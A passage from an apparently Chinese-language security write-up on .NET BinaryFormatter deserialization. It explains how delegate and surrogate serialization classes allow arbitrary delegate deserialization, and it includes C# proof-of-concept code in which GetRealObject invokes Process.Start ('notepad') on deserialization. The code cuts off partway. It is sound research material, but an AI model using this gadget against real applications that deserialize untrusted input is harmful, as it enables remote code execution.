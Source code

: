 在反序列化过程中，首先会尝试调用具有`(SerializationInfo,StreamingContext)`签名的构造函数进行初始化，之后检测是否实现`IObjectReference`，如果实现则调用`GetRealObject`获取真实对象，否则返回对象本身。和java检测serialVersionUID不同，类型版本由SerializationInfo中保存的AssemblyName决定，其规则遵循clr默认程序集发现和加载策略，可认为是透明的。

fx的程序集中存在两个极为重要的工厂类：`[mscorlib]System.DelegateSerializationHolder`和`[System.Workflow.ComponentModel]System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate+ObjectSerializedRef`。按照微软的本意，只有标记了SerializableAttribute、实现ISerializable、继承自MarshalByRefObject的类才能进行序列化/反序列化。序列化操作的实现是完全没有问题的，而在反序列化操作中并没有要求返回类型满足上述约束（当然，这是特性而不是漏洞）。借助DelegateSerializationHolder，我们可以反序列化`任何委托`（无论方法、属性，也不分静态或实例）；而借助ObjectSerializedRef可实现`任意类`反序列化。

众所周知，委托实质上代表一个可以直接执行的.net方法。如果为序列化数据提供一个恶意委托（例如Process.Start(string)），那么在委托被调用时将实现代码执行。而实际上，在序列化时控制一个对象的某个方法的调用时机是比较麻烦的，所以借助`IObjectReference::GetRealObject`等在反序列化时会进行调用的方法是更好的选择。

基于以上结论，可以得到下面的测试代码，此代码中的Test类在进行反序列化时将导致命令执行：

```
//build and run: c:windowsmicrosoft.netframeworkv4.0.30319csc test.cs &amp;&amp; test
using System;
using System.Diagnostics;
using System.Security.Cryptography;
using System.IO;
using System.Web;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;

[Serializable]
class Test : IObjectReference
`{`
    Func&lt;string, object&gt; _dele;
    string _parm;
    public Test(Func&lt;string, object&gt; dele, string parm)
    `{`
        _dele = dele;
        _parm = parm;
    `}`
    public Object GetRealObject(StreamingContext c)
    `{`
        return _dele(_parm);
    `}`
`}`

class a
`{`
    static void Main(string[] args)
    `{`
        Test t = new Test(new Func&lt;string, object&gt;(Process.Start), "notepad");
        byte[] data = Serialize(t);
        Console.WriteLine(Deserialize(data));
    `}`

    static object Deserialize(byte[] b)
    `{`
        using (MemoryStream mem = new MemoryStream(b))
        `{`
            mem.Position = 0;
            BinaryFormatter bf = new BinaryFormatter();
            return bf.Deserialize(mem);
        `}`
    `}`
    static byte[] Serialize(object obj)
    `{`
        using (MemoryStream mem = new MemoryStream())
        `{`
            BinaryFormatter bf = new BinaryFormatter();
            bf.Serialize(mem, obj);
            return mem.ToArray();
```